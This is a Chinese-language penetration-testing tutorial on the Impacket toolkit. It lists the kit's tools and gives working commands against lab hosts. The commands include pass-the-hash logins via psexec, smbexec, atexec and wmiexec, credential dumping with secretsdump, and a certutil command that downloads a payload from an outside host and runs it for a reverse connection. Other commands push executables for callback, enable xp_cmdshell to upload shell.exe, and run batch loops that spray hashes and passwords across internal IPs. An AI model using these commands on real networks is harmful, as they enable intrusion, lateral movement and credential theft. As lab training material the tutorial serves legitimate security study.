0x00 前言
Impacket官方介绍为用于处理网络协议的Python类的集合，该集合包含了渗透测试中常见的工具种类，包括远程命令执行、信息收集、票据传递、凭据获取、中间人攻击测试等。该套件里的工具使用也是linux主机跳向windows主机的方式之一。
0x01 介绍
Impacket中包含以下协议
- 以太网，Linux“ Cooked”捕获。
- IP，TCP，UDP，ICMP，IGMP，ARP。
- IPv4和IPv6支持。
- NMB和SMB1，SMB2和SMB3（高级实现）。
- MSRPC版本5，通过不同的传输方式：TCP，SMB / TCP，SMB / NetBIOS和HTTP。
- 使用密码/哈希/票证/密钥的普通，NTLM和Kerberos身份验证。
- 以下MSRPC接口的部分/完全实现：EPM，DTYPE，LSAD，LSAT，NRPC，RRP，SAMR，SRVS，WKST，SCMR，DCOM，WMI
- TDS（MSSQL）和LDAP协议实现的部分。
Impacket中包含以下工具
远程执行
- psexec.py：使用RemComSvc的PSEXEC类似功能示例。
- smbexec.py：一种与使用RemComSvc的PSEXEC。我们的实现更进一步，实例化一个本地smbserver来接收命令的输出。这在目标计算机没有可用的可写共享的情况下很有用。
- atexec.py：此示例通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。
- wmiexec.py：半交互式外壳，通过Windows Management Instrumentation使用。不需要在目标服务器上安装任何服务/代理。以管理员身份运行。高度隐秘。（可使用NTLM_hash登录）
- dcomexec.py：与wmiexec.py类似的半交互外壳，但使用不同的DCOM端点。当前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。
Kerberos
- GetTGT.py：给定密码，哈希或aesKey，此脚本将请求TGT并将其保存为ccache。
- GetST.py：在ccache中输入密码，哈希，aesKey或TGT后，此脚本将请求服务票证并将其另存为ccache。如果该帐户具有受约束的委派（具有协议转换）权限，则可以使用-impersonate开关代表另一个用户请求票证。
- GetPac.py：该脚本将仅具有经过身份验证的普通用户凭据，获取指定目标用户的PAC（特权属性证书）结构。通过混合使用MS-SFU]的S4USelf +用户到用户Kerberos身份验证来实现。
- GetUserSPNs.py：此示例将尝试查找和获取与普通用户帐户关联的服务主体名称。输出与JtR和HashCat兼容。
- GetNPUsers.py：此示例将尝试为那些设置了属性“不需要Kerberos预身份验证”（UF_DONT_REQUIRE_PREAUTH）的用户列出并获取TGT。输出与JtR兼容。
- ticketer.py：此脚本将从头开始或基于模板（从KDC合法请求）创建Golden / Silver票证，允许您自定义PAC_LOGON_INFO结构内设置的某些参数，尤其是组，ExtraSid，持续时间等。
- raiseChild.py：该脚本通过（ab）使用Golden Tickets和ExtraSids的概念来实现子域到森林特权的升级。
Windows的秘诀
- secretsdump.py：执行各种技术以从远程计算机中转储秘密，而无需在该计算机上执行任何代理。对于SAM和LSA机密（包括缓存的凭据），我们尝试从注册表中读取尽可能多的内容，然后将配置单元保存在目标系统（％SYSTEMROOT％\ Temp目录）中，并从那里读取其余数据。对于DIT文件，我们使用DL_DRSGetNCChanges（）方法转储NTLM哈希，纯文本凭据（如果可用）和Kerberos密钥。它还可以通过使用smbexec / wmiexec方法执行的vssadmin转储NTDS.dit。如果脚本不可用，该脚本将启动其工作所需的服务（例如，即使已禁用，也应使用“远程注册表”）。工作完成后，一切恢复到原始状态。
- mimikatz.py：迷你外壳，用于控制由@gentilkiwi开发的远程mimikatz RPC服务器。
服务器工具/ MiTM攻击
- ntlmrelayx.py：此脚本执行NTLM中继攻击，设置SMB和HTTP Server以及将凭据中继到许多不同的协议（SMB，HTTP，MSSQL，LDAP，IMAP，POP3等）。该脚本可以与预定义的攻击一起使用，这些预定义的攻击可以在中继连接时触发（例如，通过LDAP创建用户），或者可以以SOCKS模式执行。在这种模式下，对于每个中继的连接，以后可以通过SOCKS代理多次使用它。
- karmaSMB.py：不管指定的SMB共享和路径名如何，均可响应karmaSMB.py)特定文件内容的SMB服务器。
- smbserver.py：服务器的Python实现。允许快速设置共享和用户帐户。
WMI
- wmiquery.py：它允许发出WQL查询并获得目标系统上WMI对象的描述（例如，从win32_account中选择名称）。
- wmipersist.py：此脚本创建/删除WMI事件使用者/过滤器，并在两者之间建立链接，以基于指定的WQL过滤器或计时器执行Visual Basic。
已知漏洞
- goldenPac.py：针对MS14-068的漏洞利用。保存黄金票，并在目标上启动PSEXEC会话。
- sambaPipe.py：此脚本将利用CVE-2017-7494，上载并执行用户通过-so参数指定的共享库。
- smbrelayx.py：使用SMB中继攻击来利用CVE-2015-0005。如果目标系统正在执行签名并且提供了计算机帐户，则模块将尝试通过NETLOGON收集SMB会话密钥。
SMB / MSRPC
- smbclient.py：一个通用的SMB客户端，可让您使用用户名和密码或用户名和哈希值的组合列出共享和文件，重命名，上传和下载文件以及创建和删除目录。这是了解如何在实际中使用impacket.smb的绝佳示例。
- getArch.py ：此脚本将连接到目标机器（或目标列表），并使用记录在案的MSRPC功能收集由（ab）安装的OS体系结构类型。
- rpcdump.py：此脚本将转储在目标处注册的RPC终结点和字符串绑定的列表。它还将尝试将它们与知名端点列表匹配。
- ifmap.py：此脚本将绑定到目标的MGMT接口以获取接口ID的列表。它将在野外看到的试图绑定到每个接口的另一个接口UUID列表的顶部使用该列表，并报告该接口是否已列出和/或正在侦听。
- opdump.py：这绑定到给定的主机名：端口和MSRPC接口。然后，它尝试依次调用前256个操作号中的每个操作号，并报告每个调用的结果。
- samrdump.py：一种与MSRPC套件中的“安全帐户管理器”远程接口进行通信的应用程序。它列出了系统用户帐户，可用资源份额以及通过此服务导出的其他敏感信息。
- services.py：此脚本可用于通过MS-SCMR] MSRPC接口来操作Windows服务。它支持开始，停止，删除，状态，配置，列表，创建和更改。
- netview.py：获取在远程主机上打开的会话的列表，并跟踪它们在找到的主机上循环，并跟踪谁从远程服务器登录/注销
- reg.py：通过MS-RRP] MSRPC接口的远程注册表操作工具。这个想法是提供与REG.py Windows实用程序类似的功能。
- lookupsid.py：通过MS-LSAT] MSRPC接口的Windows SID暴力实例，旨在查找远程用户/组。
MSSQL / TDS
- mssqlinstance.py：从目标主机检索MSSQL实例名称。
- mssqlclient.py：一个MSSQL客户端，支持SQL和Windows身份验证（也有哈希）。它还支持TLS。
档案格式
- esentutl.py：一种Extensibe Storage Engine格式的实现。允许转储ESE数据库的目录，页面和表（例如NTDS.dit）
- ntfs-read.py：NTFS格式的实现。该脚本提供了一个迷你外壳，用于浏览和提取NTFS卷，包括隐藏/锁定的内容。
- registry-read.py：一个Windwows注册表文件格式实现。它允许解析脱机注册表配置单元。
其他
- GetADUsers.py：此脚本将收集有关域用户及其对应电子邮件地址的数据。它还将包含有关上次登录和上次密码设置属性的一些额外信息。
- mqtt_check.py：简单的MQTT示例，旨在使用不同的登录选项。可以很容易地转换为帐户/密码蛮力。
- rdp_check.py：MS-RDPBCGR和MS-CREDSSP]部分实现只是为了达到CredSSP身份验证。本示例测试帐户在目标主机上是否有效。
- sniff.py：简单的数据包嗅探器，它使用pcapy库来侦听＃通过指定接口传输的数据包。
- sniffer.py：简单的数据包嗅探器，它使用原始套接字侦听与指定协议相对应的传输中的数据包。
- ping.py：使用ICMP回显和回显应答包检查主机状态的简单ICMP ping。如果远程主机已启动，则它应使用echo-r eply数据包回复echo探测。
- ping6.py：使用ICMP回显和回显应答包检查主机状态的简单IPv6 ICMP ping。
0x02 基本使用
psexec
psexec.py始于微软的pstools套件， 用于管理员远程管理windows主机资产，在渗透测试中也经常用来对远程计算机执行命令。
与微软官方的psexec.py做对比，官方psexec.py执行远程命令会在远程主机创建一个PSEXEC的服务，并且命令执行后会一直存在，容易被管理人员发现并判断有入侵行为。impacket套件内的psexec，执行命令之后会删除对应的服务，隐蔽性更佳，而且impacket套件内的psexec支持PTH(哈希传递)。
与官方psexec相同，impacket套件内的psexec也支持"-c"参数，参数解释如下，即复制本地可执行文件到远程主机并执行
本地账号密码认证
python3 psexec.py ./administrator:123456@10.10.10.120
在psexec执行过程中，在远程主机10.10.10.120查看服务，发现创建了一个fZWPvIyH.py的服务
NTLM HASH认证
python3 psexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 ./administrator@10.10.10.120
域管账号密码认证
python3 psexec.py adlab/administrator:123456@10.10.10.250

域内使用NTLM hash认证对远程主机
python3 psexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 adlab/administrator@10.10.10.250

远程加载可执行程序
下面使用"-c"参数远程加载可执行程序，使目标主机反向回连。artifact.exe放到与psexec.py相同目录。
python3 psexec.py ./administrator:123456@10.10.10.120 -c artifact.exe

如下图，目标主机已正常回连，由于目标主机是双网卡主机，显示内网ip为另外一块网卡的ip。
smbexe
smbexe为全交互式工具，所以不可用于webshell环境，可用于rdp等有交互环境登录使用或socks代理环境下使用。
本地账号密码认证
python3 smbexec.py ./administrator:123456@10.10.10.120

NTLM hash认证
python3 smbexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 ./administrator@10.10.10.120

域管账号密码认证
python3 smbexec.py adlab/administrator:123456@10.10.10.250

域内使用NTLM hash认证对远程主机
python3 smbexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 adlab/administrator@10.10.10.250

smbclient.py
有时候，我们需要在攻击者计算机和目标计算机之间执行多项操作，那么 s mbclien.py 足够满足我们的所需，它可以列出共享和文件，重命名某些文 件，上传二进制文件或从目标计算机下载文件。
句法： smbclient.py 域] / 用户]：密码/密码哈希] @ 目标 IP 地址]
本地账号验证
python3 smbclient.py ./Administrator:123456@10.10.10.120
use c$
put c:\xxxx.exe 上传
get xxx.exe c盘的相对路径，下载到当前文件夹内

成功上传到C盘

下载

NTLM HASH进行验证
python3 smbclient.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 ./administrator@10.10.10.120

我们将连接到目标计算机，并且我们有了一个 smb shell，它可以运行各 种命令，例如 dir，cd，pwd，put，rename，更多，del，rm，mkdir，rmdir， 信息等
atexec
atexec是通过windows计划任务执行远程命令，atexec是一个半交互的工具，即参数中添加需要在远程主机执行的命令，工具执行后即返回命令结果，适用于webshell下，也适用于其他网络环境。
本地账号密码认证
python3 atexec.py ./administrator:123456@10.10.10.120 "whoami"

NTLM hash认证
python3 atexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 ./administrator@10.10.10.120 "whoami"

域管帐户密码认证
python3 atexec.py adlab/administrator:123456@10.10.10.120 "certutil -urlcache -split -f http://10x.xx.xx.x7:8080/lib8.py"
在linux主机下，使用proxychains代理工具，使用atexec远程执行该程序，使主机反向回连 *注意此处，123456密码中的"!“需要转义，否则会报错。*
proxychains python3 atexec.py adlab/administrator:admin\!@#45@10.10.10.120 "lib8.py"
域内使用NTLM hash认证对远程主机
python3 atexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 adlab/administrator@10.10.10.120 "whoami"
由此可以写一些简单bat脚本，如批量对内网机器遍历做hash传递验证、指定主机ntlm hash遍历验证、内网机器遍历做密码验证、指定主机密码遍历验证。
内网机器遍历做hash传递验证,ips.txt内容为内网ip，每段一条
FOR /F %%i in (ips.txt) do atexec.py -hashes :DF92E298362E3E180EC0EE7226AFB821 ./administrator@%%i whoami
指定主机ntlm hash遍历验证，hashes.txt为已知ntlm hash内容，每段一条
FOR /F %%i in (hashes.txt) do atexec.py -hashes %%i ./administrator@10.10.10.120 whoami
内网机器遍历做密码验证，passwords.txt为已知密码内容，每段一条
FOR /F %%i in (passwords.txt) do atexec.py ./administrator:%%i@10.10.10.120 whoami
指定主机密码遍历验证,ips.txt内容为内网ip，每段一条
FOR /F %%i in (ips.txt) do atexec.py ./administrator:password123@%%i whoami
wmiexec
wmiexec是一个即有全交互也有半交互的远程命令执行工具，可运用于多种环境，包括webshell环境、rdp环境、socks环境等。
本地账号密码认证
python3 wmiexec.py adlab/administrator:123456@10.10.10.120
NTLM HASH认证
python3 wmiexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 ./administrator@10.10.10.120

在linux主机下，使用proxychains代理工具，使用wmiexec对远程主机10.10.10.120执行命令
python3 wmiexec.py adlab/administrator:admin\!@#45@10.10.10.120
dcomexec
此方式通过dcom远程管理组件来执行，此种方式走DCOM的135端口执行，445端口UNC取回。但如果目标445端口被防火墙过滤就会导致远程命令执行失败。
python3 dcomexec.py ./administrator:123456@10.10.10.53

后续发现有一个参数叫-nooutput就可以解决这样的情况，这时wmiexec、dcomexec仅仅会使用135端口，但是不会有回显。有些时候很有必要把debug打开。
Samrdump.py
与MSRPC套件中的安全帐户管理器远程接口通信的应用程序。它将为我们列出目标系统上的用户帐户，可用资源共享以及通过此服务导出的其他敏感信息
语法: ./samrdump.py domain/] username : password] @] Target IP Address]
python3 samrdump.py ./Administrator:123456@10.10.10.120

getST
在ccache中输入密码，哈希，aesKey或TGT后，此脚本将请求服务票证并将其另存为ccache。如果该帐户具有受约束的委派（具有协议转换）权限，则可以使用-impersonate开关代表另一个用户请求票证。
python3 getST.py -spn cifs/liming-pc.adlaboffice.com -impersonate administrator -dc-ip 192.168.10.50 adlaboffice.com/evilcomputer$:123456
secretsdump
执行各种技术以从远程计算机中转储秘密，而无需在该计算机上执行任何代理。对于SAM和LSA机密（包括缓存的凭据），我们尝试从注册表中读取尽可能多的内容，然后将配置单元保存在目标系统（％SYSTEMROOT％\ Temp目录）中，并从那里读取其余数据。对于DIT文件，我们使用DL_DRSGetNCChanges（）方法转储NTLM哈希，纯文本凭据（如果可用）和Kerberos密钥。它还可以通过使用smbexec / wmiexec方法执行的vssadmin转储NTDS.dit。如果脚本不可用，该脚本将启动其工作所需的服务（例如，即使已禁用，也应使用“远程注册表”）。工作完成后，一切恢复到原始状态。
python3 secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL
mssqlclient
一个MSSQL客户端，支持SQL和Windows身份验证（也有哈希）
windows认证
python3 mssqlclient.py ./administrator:123456@10.108.3.132 -windows-auth
mssql账号密码认证的服务
python3 mssqlclient.py sa:123456@10.108.3.132
enable_xp_cmdshell 开启xpcmdshell
xp_cmdshell whoami 执行命令
upload c:\shell.exe c:\windows\temp\shell.exe
upload 本地目录 远程目录
在windows环境下使用windows认证模式，使用ntlm hash验证方式，mssqlclient测试登录sqlserver服务器，账号验证成功后执行command.txt内的sql命令
python3 mssqlclient.py -p 1433 -hashes :dsfhsajfdsjbfsdfrootkit/sqladmin@192.168.3.73 -file command.txt -windows-auth
验证成功后执行mssql.txt内的sql语句
python3 mssqlclient.py domain/administrator@192.168.159.138 -windows-auth -file mssql.txt
services.py
Impacket 的服务脚本在 MSRPC Interface 的帮助下与 Windows 服务进行通 信。它可以启动，停止，删除，读取状态，配置，列出，创建和更改任何服务。
句法： services.py 域] / 用户]：密码/密码哈希] @ 目标 IP 地址] 操 作]
本地账号验证
python3 services.py Administrator:123456@10.10.10.120 list
NTLM HASH进行验证
python3 services.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@10.10.10.120 list
opdump.py
该脚本绑定到给定的主机名：端口，并连接到 DCERPC（分布式计算环境/ 远程过程调用）接口。连接后，它将尝试依次调用前 256 个操作号中的每个操 作号，并报告每次调用的结果，这会生成与给定 host：port 的 TCP 连接信息。
句法： opdump.py 目标 IP 地址] 端口接口版本]
python3 opdump.py 10.10.10.120 135 76F226C3-EC14-4325-8A99- 6A46348418AF v1.0

rpcdump.py
RPC 或远程过程调用是指计算机程序使过程在不同的地址空间中执行时 （被编码为常规过程调用）。该脚本可以为我们枚举这些端点。
句法： rpcdump.py 域] / 用户]：密码/密码哈希] @ 目标 IP 地址]
本地账号验证
python3 rpcdump.py adlab/Administrator:123456@10.10.10.250

NTLM HASH进行验证
python3 rpcdump.py -hashes :32196B56FFE6F45E294117B91A83BF38 adlab/Administrator@10.10.10.250

lookupsid
安全标识符（SID）是可变长度的唯一值，用于标识用户帐户，通过 SID 用 户枚举，我们可以提取有关存在的用户及其数据的信息，Lookupsid 脚本可以 枚举本地和域用户。
句法： lookupsid.py 域] / 用户]：密码/密码哈希] @ 目标 IP 地址]
本地账号验证
python3 lookupsid.py adlab/Administrator:123456@10.10.10.250

NTLM HASH进行验证
python3 lookupsid.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 adlab/Administrator@10.10.10.250